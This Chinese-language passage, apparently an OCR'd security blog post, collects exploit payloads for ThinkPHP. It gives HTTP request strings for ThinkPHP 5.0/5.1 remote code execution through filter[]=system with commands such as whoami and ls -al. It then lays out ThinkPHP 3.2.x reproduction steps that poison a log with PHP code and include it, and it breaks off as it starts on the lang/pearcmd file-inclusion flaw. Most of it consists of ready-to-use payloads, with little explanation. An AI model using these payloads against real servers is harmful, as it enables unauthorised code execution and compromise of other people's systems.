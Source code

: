 5.0  
.13  
```
http://php.local/thinkphp5.0.5/public/index.php?s=indexpost_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo_method=__construct&filter[]=system&method=GET&get[]=whoami# ThinkPHP <= 5.0.13POST /?s=index/indexs=whoami&_method=__construct&method=&filter[]=system# ThinkPHP <= 5.0.23、5.1.0 <= 5.1.16 需要开启框架app_debugPOST /_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al# ThinkPHP <= 5.0.23 需要存在xxx的method路由，例如captchaPOST /?s=xxx HTTP/1.1_method=__construct&filter[]=system&method=get&get[]=ls+-al_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```  
  
  
**ThinkPHP3.2.x RCE**  
# 1.漏洞介绍  
  
ThinkPHP3.2远程代码执行漏洞，该漏洞产生原因是由于在业务代码中如果对模板赋值方法assign的第一个参数可控，则导致模板路径变量被覆盖为携带攻击代码路径，造成文件包含，代码执行等危害。  
  
**2.版本**  
  
3.2.x  
  
**3.复现**  
  
先创建一个日志,并写入phpinfo  
  
index.php?m=--><?=phpinfo();?>  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uribSwIWP3w8uLzee8xc9v3enezUe1uaHyNicU49emhPtiaDmnZesibhuGfVSkSD2vlgXQyqViccsWXeKQ/640?wx_fmt=png "")  
  
然后去包含这个文件,文件名就是今天的日期  
```
index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/23_10_19.log
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uribSwIWP3w8uLzee8xc9v3eBwbbAriaAg7HD70hkgn0kpbpC06CvsSdXsEBfEROJbkJ8bpHNceG76w/640?wx_fmt=png "")  
# 不同版本日志位置不一样,看我总结  
#       
```
THINKPHP3.2 结构：
Application\Runtime\Logs\Home\日期.log
THINKPHP3.1结构：
Runtime\Logs\Home\日期.log
日志存储结构是 ：项目名\Runtime\Logs\Home\年份_月份_日期.log
```  
# thinkphp lang 命令执行  
  
  
**1 漏洞原理**  
  
在其6.0.13版本及以前，存在一处本地文件包含漏洞。当多语言特性被开启时，攻击者可以使用lang参数来包含任意PHP文件。  
  
虽然只能包含本地PHP文件，但在开启了register_argc_argv且安装了pcel/pear的环境下，可以包含/usr/local/lib/php/pearcmd.php并写入任意文件  
  